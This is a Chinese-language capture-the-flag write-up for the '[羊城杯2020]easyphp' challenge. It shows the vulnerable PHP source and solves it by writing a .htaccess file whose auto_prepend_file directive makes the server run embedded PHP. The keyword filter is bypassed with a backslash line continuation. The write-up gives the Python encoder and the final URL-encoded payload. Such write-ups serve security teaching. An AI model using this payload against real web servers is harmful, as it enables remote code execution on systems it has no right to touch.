



# [羊城杯2020]easyphp

## 知识点

`file_put_contents`

`php代码审计`

## 解题

题目给出`php`源码进行代码审计

```php
<?php
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    if(!isset($_GET['content']) || !isset($_GET['filename'])) {
        highlight_file(__FILE__);
        die();
    }
    $content = $_GET['content'];
    if(stristr($content,'on') || stristr($content,'html') || stristr($content,'type') || stristr($content,'flag') || stristr($content,'upload') || stristr($content,'file')) {
        echo "Hacker";
        die();
    }
    $filename = $_GET['filename'];
    if(preg_match("/[^a-z\.]/", $filename) == 1) {
        echo "Hacker";
        die();
    }
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    file_put_contents($filename, $content . "\nHello, world");
?>
```

每次都会将当前目录下`index.php`以外的文件删除,传入的`content`不能包含`on` `html` `type` `flag` `upload` `file`，文件名只能为`小写字母和.`

试了传`index.php`不行

那么使用`.htaccess`作为文件名传参

```
php_value auto_prepend_file
.htaccess
#<?php phpinfo();?>
```

因为`file`关键字被过滤以及需要转义后面的`\nHello,world`，所以构造`payload`,因为本机为`mac`，所以换行符编码为`%0A`,需要替换为`%0D%0A`

```
php_value auto_prepend_fi\
le .htaccess
#<?php phpinfo();?>
#\
```

`python`代码为

```python
from urllib.parse import quote

with open('a.txt', 'r') as f:
    content = f.read().strip()
    print(quote(content).replace('%0A', '%0D%0A'))
```

最终`payload为`

```
?filename=.htaccess&content=php_value%20auto_prepend_fi%5C%0D%0Ale%20.htaccess%0D%0A%23%3C%3Fphp%20phpinfo%28%29%3B%3F%3E%0D%0A%23%5C
```





